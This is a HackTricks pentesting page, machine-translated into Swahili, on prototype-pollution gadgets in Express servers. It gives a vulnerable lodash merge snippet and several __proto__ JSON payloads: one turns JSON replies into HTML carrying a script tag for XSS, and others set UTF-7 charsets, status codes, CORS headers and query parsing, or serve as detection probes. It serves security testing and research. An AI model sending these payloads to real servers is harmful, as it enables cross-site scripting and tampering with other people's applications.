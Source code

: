 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Kwa maelezo zaidi** [**angalia utafiti wa asili**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

Katika programu ya Express inayotumia **aina ya maudhui ya JSON** na kuakisi JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Katika hizi kesi, XSS kawaida haiwezekani na aina ya maudhui ya JSON. Hata hivyo, kwa uchafuzi wa prototype tunaweza **kuchanganya Express kutoa jibu la HTML.** Uthibitisho huu unategemea programu kutumia **`res.send(obj)`** na kutumia parser ya mwili na aina ya maudhui ya application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Kwa **kuchafua** mali za **`body`** na **`_body`**, inawezekana kusababisha **Express kutoa aina ya maudhui ya HTML** na kuonyesha mali ya `_body`, na kusababisha XSS iliyohifadhiwa.

### Onyesha UTF7

Inawezekana kufanya express **ionyeshe maudhui ya UTF-7 kwa**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Safe Scanning Techinques

### JSON spaces

Ifuatayo PP itafanya sifa ndani ya JSON kuwa na nafasi ya ziada ambayo haitavunja utendaji:
```json
{"__proto__":{"json spaces": " "}}
```
Kisha JSON iliyoakisi itaonekana kama:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Gadget ya PP ifuatayo itafanya seva itume tena kichwa cha HTTP: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Inahitaji **moduli ya CORS kufungwa**

### **Njia ya OPTIONS**

Kwa payload ifuatayo, inawezekana **kuficha njia kutoka kwa jibu la OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Hali**

Inawezekana kubadilisha **kodi ya hali iliyorudishwa** kwa kutumia mzigo wa PP ufuatao:
```json
{"__proto__":{"status":510}}
```
### Error

Wakati unateua kwa prototype kwa kutumia primitive kama string, inazalisha **operesheni isiyo na maana kwani prototype inapaswa kuwa kitu**. Ikiwa unajaribu kupeana kitu cha prototype kwa `Object.prototype` yenyewe, hii itasababisha **kutoa hitilafu**. Tunaweza kutumia tabia hizi mbili ili **kubaini ikiwa uchafuzi wa prototype umefanikiwa**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Wakati programu inajumuisha kitu katika jibu lake, kuunda sifa yenye **jina lisilo la kawaida pamoja na `__proto__`** kunaweza kuwa na maana. Kwa hakika, ikiwa **sifa hiyo pekee isiyo ya kawaida inarudishwa** katika jibu, hii inaweza kuashiria udhaifu wa programu:
```json
{"unusualName":"value","__proto__":"test"}
```
Zaidi ya hayo, katika hali ambapo maktaba kama Lodash inatumika, kuweka mali kupitia uchafuzi wa prototype (PP) na moja kwa moja ndani ya kitu kunatoa njia nyingine ya uchunguzi. Ikiwa mali kama hiyo imeachwa kwenye jibu, inamaanisha kwamba Lodash inathibitisha uwepo wa mali hiyo katika kitu cha lengo kabla ya kuunganisha:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Ruhusu Madoa

Kuna chaguo katika Express kinachokuruhusu **kuunda vitu kutoka kwa vigezo vya mfuatano wa swali**.\
Unaweza hakika kukitumia katika **mnyororo** wa hitilafu ili kutumia **udhaifu wa uchafuzi wa prototype**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` inaunda kitu katika Node.**

## Marejeo

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
